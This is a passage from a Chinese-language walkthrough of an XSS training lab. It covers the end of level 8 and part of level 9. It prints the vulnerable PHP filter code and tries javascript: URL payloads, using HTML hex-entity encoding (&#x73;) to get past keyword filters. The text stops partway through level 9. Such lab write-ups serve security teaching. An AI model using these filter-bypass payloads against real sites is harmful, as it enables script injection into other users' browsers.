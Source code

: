单引号没有被处理，尝试使用伪协议

`javascript:alert(/xss/)`

<a href="javascr_ipt:alert(/xss/)">

也被处理了，尝试使用**16进制编码**

**s**的16进制是 &**#x73;**

`java&#x73;cript:alert(/xss/)`



总结

hackbar无法提交unicode，`&`被当成参数了，可以尝试将`&`进行url编码，或直接在网页的输入payload了

unicode可以和ascii码混合使用；s的unicode加ascii编码是`&#115;`，再进行16进制转换是`&#x73;`

unicode有两种，`&#`的是web网页上使用的，`\u`是java上使用的。

## level9

http://192.168.31.193:8080/level9.php?keyword=not%20bad!

```php
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
echo '<center>
<form action=level9.php method=GET>
<input name=keyword  value="'.htmlspecialchars($str).'">
<input type=submit name=submit value=添加友情链接 />
</form>
</center>';
?>
```

测试过滤了什么

`<script " 'Oonn>`

<a href="您的链接不合法？有没有！">

没有显示怎么处理的.

尝试上有关的payload

`java&#x73;cript:alert(/xss/)`

<a href="您的链接不合法？有没有！">

依旧提示**链接不合法**，换成百度**'http://www.baidu.com'**试试。
